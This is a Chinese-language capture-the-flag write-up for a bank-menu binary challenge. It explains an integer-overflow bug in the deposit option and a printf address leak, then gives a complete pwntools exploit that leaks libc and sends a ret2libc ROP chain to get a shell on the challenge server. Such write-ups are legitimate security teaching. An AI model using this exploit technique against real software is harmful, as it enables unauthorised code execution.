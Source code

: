 ![[Pasted image 20240923212657.png]]

第一个password后面的输入随便填就行，没什么用，往下看就是一个大循环，atoi函数就是将字符串转化为整数（int型），第一个case 1u:里面是输出目前nbytes的值，也就是库存，case 2u:是取钱，将你输入的数首先进行检查，防止限制外数的输入，然后将库存nbytes减去你输入的数，case 3u:是存钱，这个条件里面有漏洞，也就是整数溢出的漏洞，我们需要输入一个数，这个数是nptr是int型的，但是在下面有个强制转化：v5 = (unsigned int)nptr; 这里将int型转化为unsigned的类型，会造成溢出，变得非常大，效果如下：

![[Pasted image 20240923212713.png]]

发现库存nbytes变得非常的大。

看看有没有后门，很遗憾没有。只能我们自己去泄露了。

![[Pasted image 20240923212722.png]]

我们往下看看还有什么可以利用的，可以看到case 5u:这里面有个输出，你看看输出的是什么，不错，是printf的真实地址，这就我们解决了泄露的问题了，我们也就可以利用其来寻找libc的版本

![[Pasted image 20240923212732.png]]

并且在这里存在一个read函数，正好可以利用超级大的nbytes来溢出，那么到这里我们的问题已经解决了。

附上exp：仅供参考！！

```
from pwn import*
from LibcSearcher import*
context(terminal = ['tmux','split','-h'])
# p=process('./app')
p = remote('node1.anna.nssctf.cn',28423)
elf=ELF('./app')
context(os='linux', arch='amd64', log_level='debug')
#attach(p)
pop_rdi=0x0000000000401233
ret=0x00000000004014BA
p.recvuntil(b"password:")
# attach(p)
pay=b'passwd'
p.sendline(pay)
p.recvuntil(b"Exit")
pay=b'3'
p.send(pay)
p.recvuntil(b"Please enter your deposit:")
p.send(b"-1")

p.recvuntil(b"Exit")
pay=b'5'
p.sendline(pay)
p.recvuntil(b"gift:")
addr=int(p.recv(16),16)
print(hex(addr))

libc=LibcSearcher("printf",addr)
log.success('leak_atoi_real_addr => {}'.format(hex(addr)))
libcbase = addr - libc.dump('printf')
system_addr = libcbase + libc.dump('system')
str_bin_sh = libcbase + libc.dump('str_bin_sh')

log.success('leak_system_real_addr => {}'.format(hex(system_addr)))
log.success('leak_bin_sh_real_addr => {}'.format(hex(str_bin_sh)))

payload=flat(b'a'*0x168,ret,pop_rdi,str_bin_sh,system_addr)
p.sendline(payload)
p.sendline(b"4")

p.interactive()
```